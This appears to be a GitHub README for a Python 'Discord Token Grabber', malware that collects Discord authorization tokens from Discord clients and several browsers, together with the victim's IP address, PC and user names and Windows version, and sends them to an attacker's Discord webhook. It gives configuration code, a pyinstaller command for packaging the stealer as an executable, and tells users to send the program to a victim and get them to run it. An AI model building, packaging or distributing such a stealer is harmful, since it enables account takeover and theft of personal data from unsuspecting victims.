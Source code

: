 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3.![visitor badge](https://visitor-badge.glitch.me/badge?page_id=mega145.Discord_token_grabber&left_color=red&right_color=green) </p>

This version of the grabber **only** supports **Windows**.
# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- a whole lot of code refactoring
- added simple , fancy , raw functions
```

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=mega145&repo=Discord_token_grabber&bg_color=151515)](https://github.com/anuraghazra/github-readme-stats)
